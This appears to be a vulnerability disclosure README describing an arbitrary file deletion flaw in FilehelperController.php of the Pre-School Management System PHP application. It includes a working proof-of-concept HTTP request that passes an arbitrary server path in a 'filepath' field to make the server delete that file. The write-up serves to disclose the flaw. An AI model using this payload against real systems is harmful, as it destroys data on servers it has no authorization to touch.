



# Pre_School_Management_System_Arbitrary_File_Deletion_Vulnerabilit
## Description
    The Pre-School Management System FilehelperController.php contains an arbitrary file deletion vulnerability.
## Affects Plugins
    Pre-School Management System
    https://www.sourcecodester.com/php/14716/pre-school-management-system.html
## Author
    yangfan2@webray.com.cn inc  
## Proof of Concept
sink `app/controllers/FilehelperController.php` 

|  |
| ------------------------------------------------------------ |


poc

```
POST /pre_school/filehelper/removefile/ HTTP/1.1
Host: 10.211.55.3
Content-Length: 295
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryyxBfwiwxjwDBB0c5
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Origin: http://10.211.55.3
Referer: http://10.211.55.3/pre_school/account
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=ur4ucjnp95l0lg5fapef4retkt
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="92", "Google Chrome";v="92"
sec-ch-ua-mobile: ?0
Connection: keep-alive

------WebKitFormBoundaryyxBfwiwxjwDBB0c5
Content-Disposition: form-data; name="csrf_token"

2e76eba2a1a7d2aa91e114c9fc793229
------WebKitFormBoundaryyxBfwiwxjwDBB0c5
Content-Disposition: form-data; name="filepath"

C:\phpstudy_pro\WWW\111.txt
------WebKitFormBoundaryyxBfwiwxjwDBB0c5--

```

|  |
| ------------------------------------------------------------ |

Try deleting a non-existent file.

|  |
| ------------------------------------------------------------ |

